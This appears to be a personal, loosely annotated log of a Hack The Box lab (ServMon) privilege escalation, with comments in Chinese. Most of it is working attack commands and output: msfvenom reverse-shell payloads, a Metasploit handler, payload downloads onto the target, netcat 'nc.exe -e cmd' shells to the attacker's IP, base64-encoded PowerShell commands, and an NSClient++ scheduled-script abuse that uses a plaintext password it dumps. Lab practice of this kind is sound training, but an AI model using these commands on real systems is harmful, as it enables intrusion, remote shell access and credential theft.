ModifiablePath    : C:\Users\Nadine\AppData\Local\Microsoft\WindowsApps
IdentityReference : SERVMON\Nadine
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}       
%PATH%            : C:\Users\Nadine\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\Nadine\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\Nadine\AppData\Local\Mic 
                    rosoft\WindowsApps\wlbsctrl.dll' //某些高权限程序可能会从 PATH 里加载 DLL

DefaultDomainName    : SERVMON
DefaultUserName      : Nathan
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons


PS C:\ProgramData> //深挖 Autologon 注册表
PS C:\ProgramData> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon        
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    SERVMON
    DefaultUserName    REG_SZ    Nathan
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ     
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}   
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x1064398d6
    ShutdownFlags    REG_DWORD    0x8000022b
    AutoAdminLogon    REG_DWORD    0x1
    AutoLogonSID    REG_SZ    S-1-5-21-3217154428-562821044-1828981534-1000     
    LastUsedUsername    REG_SZ    Nathan

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Alterna
teShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExten
sions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserDef
aults
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLog
onChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Volatil
eUserMgrKey
PS C:\ProgramData>

```

```
[★]$ ssh nadine@10.129.227.77
nadine@10.129.227.77's password:


nadine@SERVMON C:\Users\Nadine> powershell
PS C:\Users\Nadine> . .\PowerUp.ps1  //同上一样的结果
```
#### 直接下载工具，浏览器永久了打不开
```
[★]$ git clone https://github.com/GreatSCT/GreatSCT
[★]$ cd GreatSCT
[~/GreatSCT][★]$ ls
CHANGELOG  GreatSCT.py  lib      README.md   setup
config     __init__.py  LICENSE  ROADMAP.md  Tools
[~/GreatSCT][★]$ sudo ./GreatSCT.py --ip 10.10.15.27 --port 1234 -t bypass -p regsvcs/meterpreter/rev_tcp.py -o serv
[★]$ sudo ./setup/setup.sh
 ==========================================================================
                  GreatSCT (Setup Script) | [Updated]: 2018-01-21
 ==========================================================================
  [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
 ==========================================================================

Debug:      userhomedir = /root
Debug:          rootdir = /home/syareya55/GreatSCT
Debug:         trueuser = root
Debug: userprimarygroup = root
Debug:               os = debian
Debug:          version = "6.4"
Debug:          winedir = /root/.greatsct

 [ERROR]: GreatSCT is only supported on Debian 8 (Jessie) or higher!
❌ GreatSCT 太老了（2018 年的工具）
❌ 它只支持 Debian 8 / Kali 老版本
你现在的系统是新 Kali / Debian 12
👉 GreatSCT 已经跑不起来了
所以这条路：可以放弃 GreatSCT 了 🚫
```
```
[★]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.27 LPORT=1234 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe
 [★]$ python3 -m http.server 8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...
```

```
[★]$ msfconsole
Metasploit tip: View all productivity tips with the tips command
                                                  
                                              `:oDFo:`                            
                                           ./ymM0dayMmy/.                          
                                        -+dHJ5aGFyZGVyIQ==+-                    
                                    `:sm⏣~~Destroy.No.Data~~s:`                
                                 -+h2~~Maintain.No.Persistence~~h+-              
                             `:odNo2~~Above.All.Else.Do.No.Harm~~Ndo:`          
                          ./etc/shadow.0days-Data'%20OR%201=1--.No.0MN8'/.      
                       -++SecKCoin++e.AMd`       `.-://///+hbove.913.ElsMNh+-    
                      -~/.ssh/id_rsa.Des-                  `htN01UserWroteMe!-  
                      :dopeAW.No<nano>o                     :is:TЯiKC.sudo-.A:  
                      :we're.all.alike'`                     The.PFYroy.No.D7:  
                      :PLACEDRINKHERE!:                      yxp_cmdshell.Ab0:    
                      :msf>exploit -j.                       :Ns.BOB&ALICEes7:    
                      :---srwxrwx:-.`                        `MS146.52.No.Per:    
                      :<script>.Ac816/                        sENbove3101.404:    
                      :NT_AUTHORITY.Do                        `T:/shSYSTEM-.N:    
                      :09.14.2011.raid                       /STFU|wall.No.Pr:    
                      :hevnsntSurb025N.                      dNVRGOING2GIVUUP:    
                      :#OUTHOUSE-  -s:                       /corykennedyData:    
                      :$nmap -oS                              SSo.6178306Ence:    
                      :Awsm.da:                            /shMTl#beats3o.No.:    
                      :Ring0:                             `dDestRoyREXKC3ta/M:    
                      :23d:                               sSETEC.ASTRONOMYist:    
                       /-                        /yo-    .ence.N:(){ :|: & };:    
                                                 `:Shall.We.Play.A.Game?tron/    
                                                 ```-ooy.if1ghtf0r+ehUser5`    
                                               ..th3.H1V3.U2VjRFNN.jMh+.`          
                                              `MjM~~WE.ARE.se~~MMjMs              
                                               +~KANSAS.CITY's~-`                  
                                                J~HAKCERS~./.`                    
                                                .esc:wq!:`                        
                                                 +++ATH`                            
                                                  `


       =[ metasploit v6.4.71-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 431 post       ]
+ -- --=[ 1669 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.10.15.27
LHOST => 10.10.15.27
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 1234
LPORT => 1234
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 10.10.15.27:1234
```
_____________
```
PS C:\programdata> powershell wget http://10.10.15.27:8011/rev.exe -outfile rev.
exe
PS C:\programdata> powershell wget http://10.10.15.27:8011/shell.bat -outfile sh
ell.bat
PS C:\programdata> dir


    Directory: C:\programdata


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/28/2022   6:32 PM                chocolatey
d---s-        2/28/2022   3:55 PM                Microsoft
d-----        2/28/2022   6:46 PM                NVMS-1000
d-----        2/28/2022   6:24 PM                Package Cache
d-----        2/25/2025   5:39 AM                regid.1991-06.com.microsoft    
d-----        9/15/2018  12:19 AM                SoftwareDistribution
d-----        2/25/2025   5:46 AM                ssh
d-----        9/15/2018  12:19 AM                USOPrivate
d-----       11/11/2019   6:52 PM                USOShared
d-----        2/28/2022   5:44 PM                VMware
-a----        2/13/2026   4:35 AM           7168 rev.exe
-a----        2/13/2026   5:07 AM             23 shell.bat

```
#### 应该使用443端口
```
[★]$ echo 'C:\programdata\rev.exe' > shell.bat
[★]$ cat shell.bat
C:\programdata\rev.exe

[★]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.27 LPORT=443 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe
[★]$ python3 -m http.server 8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...

sudo msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.15.27
set LPORT 443
run
```
______________

换kali
```
┌──(parallels㉿kali-linux-2024-2)-[~]
└─$ vi shell.bat
┌──(parallels㉿kali-linux-2024-2)-[~]
└─$ cat shell.bat
\programdata\nc.exe 10.10.15.27 443 -e cmd
┌──(parallels㉿kali-linux-2024-2)-[~]
└─$ python3 -m http.server 8011
Serving HTTP on 0.0.0.0 port 8011 (http://0.0.0.0:8011/) ...


```
```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT

nadine@SERVMON C:\>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\programdata> powershell wget http://10.10.15.27:8011/shell.bat -outfile shell.bat
PS C:\programdata> powershell wget http://10.10.15.27:8011/nc64.exe -outfile nc.exe
PS C:\programdata> dir


    Directory: C:\programdata


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/28/2022   6:32 PM                chocolatey
d---s-        2/28/2022   3:55 PM                Microsoft
d-----        2/28/2022   6:46 PM                NVMS-1000
d-----        2/28/2022   6:24 PM                Package Cache
d-----        2/25/2025   5:39 AM                regid.1991-06.com.microsoft
d-----        9/15/2018  12:19 AM                SoftwareDistribution
d-----        2/25/2025   5:46 AM                ssh
d-----        9/15/2018  12:19 AM                USOPrivate
d-----       11/11/2019   6:52 PM                USOShared
d-----        2/28/2022   5:44 PM                VMware
-a----        2/13/2026   5:34 AM          45272 nc.exe
-a----        2/13/2026   5:34 AM             43 shell.bat


PS C:\programdata>  


```
______________
```
$ echo 'ping -n 1 10.10.14.2' | iconv -t utf-16le
$ echo 'ping -n 1 10.10.14.2' | iconv -t utf-16le | base64 -w 0
//这两行命令是在把一条 Windows 命令变成 PowerShell 可用的 Base64 编码格式，常用于 HTB 里绕过限制或构造 payload
//为什么要转 UTF-16LE？
因为 PowerShell 的 -EncodedCommand 参数只接受 UTF-16LE 编码后的 Base64。
//powershell -enc 的规则是：
Base64 解码后，必须是 PowerShell要直接执行的一条命令字符串

sudo tcpdump -i tun0 icmp
Moudules && Queries : CheckExternalScripts ,Run


cp /usr/share/nishang/Shells/Invoke-PowershellTcp .ps1
vi ~  
FoobatSubscribe -Reverse -IPAddress 10.10.14.27 -Port 9011


$ cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le | base64 -w 0
> echo powshell -enc 粘贴 > evil.bat
也可以
> powershell -enc 粘贴

nc -lvnp 9001

Queries/ foobat run


> nc.exe -e cmd 10.10.14.2 9001
```

______________-
```
PS C:\programdata> .\nc.exe -e cmd 10.10.14.152 443

$ sudo rlwrap nc -lvnp 443                                                          
[sudo] password for parallels: 
listening on [any] 443 ...
connect to [10.10.14.152] from (UNKNOWN) [10.129.227.77] 50893
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\programdata>whoami
whoami
servmon\nadine

```

```
PS C:\programdata> echo 'C:\programdata\nc.exe -e cmd 10.10.14.152 443' > evil.bat


[★]$ echo '\programdata\nc.exe 10.10.15.132 443 -e cmd' > shell.bat
[★]$ cat shell.bat | iconv -t utf-16le | base64 -w 0
XABwAHIAbwBnAHIAYQBtAGQAYQB0AGEAXABuAGMALgBlAHgAZQAgADEAMAAuADEAMAAuADEANQAuADEAMwAyACAANAA0ADMAIAAtAGUAIABjAG0AZAAKAA==
```
____________________
```
[★]$ ls /usr/share/nishang/Shells/
Invoke-ConPtyShell.ps1               Invoke-PowerShellTcp.ps1
Invoke-JSRatRegsvr.ps1               Invoke-PowerShellUdpOneLine.ps1
Invoke-JSRatRundll.ps1               Invoke-PowerShellUdp.ps1
Invoke-PoshRatHttp.ps1               Invoke-PowerShellWmi.ps1
Invoke-PoshRatHttps.ps1              Invoke-PsGcatAgent.ps1
Invoke-PowerShellIcmp.ps1            Invoke-PsGcat.ps1
Invoke-PowerShellTcpOneLineBind.ps1  Remove-PoshRat.ps1
Invoke-PowerShellTcpOneLine.ps1
[★]$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
[★]$ vi Invoke-PowerShellTcp.ps1 //修改里面的IP && port


cmd.exe
powershell -nop -w hidden -enc 你的Base64
```
```
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display       
Current password: ew2x6SsGTxjRwXOT

nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display       
Current password: ew2x6SsGTxjRwXOT

nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
# If you want to fill this file with all available options run the following 
command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1


; in flight - TODO
[/settings/NRPE/server]

; Undocumented key
ssl options = no-sslv2,no-sslv3

; Undocumented key
verify mode = peer-cert

; Undocumented key
insecure = false


; in flight - TODO
[/modules]

; Undocumented key
CheckHelpers = disabled

; Undocumented key
CheckEventLog = disabled

; Undocumented key
CheckNSCP = disabled

; Undocumented key
CheckDisk = disabled

; Undocumented key
CheckSystem = disabled

; Undocumented key
WEBServer = enabled

; Undocumented key
NRPEServer = enabled

; CheckTaskSched - Check status of your scheduled jobs.
CheckTaskSched = enabled

; Scheduler - Use this to schedule check commands and jobs in conjunction with f
or instance passive monitoring through NSCA
Scheduler = enabled

; CheckExternalScripts - Module used to execute external scripts
CheckExternalScripts = enabled


; Script wrappings - A list of templates for defining script commands. Enter any
 command line here and they will be expanded by scripts placed under the wrapped
 scripts section. %SCRIPT% will be replaced by the actual script an %ARGS% will 
be replaced by any given arguments.
[/settings/external scripts/wrappings]

; Batch file - Command used for executing wrapped batch files
bat = scripts\\%SCRIPT% %ARGS%

; Visual basic script - Command line used for wrapped vbs scripts
vbs = cscript.exe //T:30 //NoLogo scripts\\lib\\wrapper.vbs %SCRIPT% %ARGS%     

; POWERSHELL WRAPPING - Command line used for executing wrapped ps1 (powershell)
 scripts
ps1 = cmd /c echo If (-Not (Test-Path "scripts\%SCRIPT%") ) { Write-Host "UNKNOW
N: Script `"%SCRIPT%`" not found."; exit(3) }; scripts\%SCRIPT% $ARGS$; exit($la
stexitcode) | powershell.exe /noprofile -command -


; External scripts - A list of scripts available to run from the CheckExternalSc
ripts module. Syntax is: `command=script arguments`
[/settings/external scripts/scripts]


; Schedules - Section for the Scheduler module.
[/settings/scheduler/schedules]

; Undocumented key
foobar = command = foobar


; External script settings - General settings for the external scripts module (C
heckExternalScripts).
[/settings/external scripts]
allow arguments = true


; in flight - TODO
[/settings/external scripts/scripts/11]

; COMMAND - Command to execute
command = c:\\programdata\\shell.bat


; in flight - TODO
[/settings/scheduler/schedules/11]

; SCHEDULE COMMAND - Command to execute
command = 11

; SCHEDULE INTERAVAL - Time in seconds between each check
interval = 1m

nadine@SERVMON C:\Program Files\NSClient++>

```
```
[★]$ ls /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
[★]$ cp  /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .

nadine@SERVMON C:\ProgramData>powershell "(New-Object Net.WebClient).downloadStr
ing('http://10.10.15.132:8011/Invoke-PowerShellTcp.ps1')"

```
```
[★]$ locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
nadine@SERVMON C:\ProgramData>curl 10.10.15.132:8011/nc.exe -o nc.exe
[★]$ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .

nadine@SERVMON C:\ProgramData>curl 10.10.15.132:8011/nc.exe -o nc.exe


nadine@SERVMON C:\ProgramData>echo c:\programdata\nc.exe -e cmd 10.10.15.132 443
 >  shell.bat 
```
